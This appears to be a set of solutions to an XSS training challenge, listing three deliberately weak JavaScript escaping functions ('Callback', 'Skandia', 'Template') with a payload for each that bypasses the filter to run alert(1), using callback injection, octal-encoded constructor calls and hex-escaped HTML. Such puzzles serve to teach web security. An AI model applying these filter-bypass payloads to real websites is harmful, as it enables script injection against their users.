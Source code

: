 ## Callback  
```js
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
Payload: `'#';alert(1)//`  
  
## Skandia 1 + Skandia 2
```js
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
Payload: `<script>console.log(""+[]['\146\151\154\154']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164(1)')()+"")</script>`  
  
## Template
```js
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g, 
        function(_, n) { 
           return htmlEscape(args[n]);
         });
  }
  
  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
```
Payload: `\x61\x61\x61\x61\x61\x3c\x2f\x61\x3e\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x20\x2f\x3e`  
  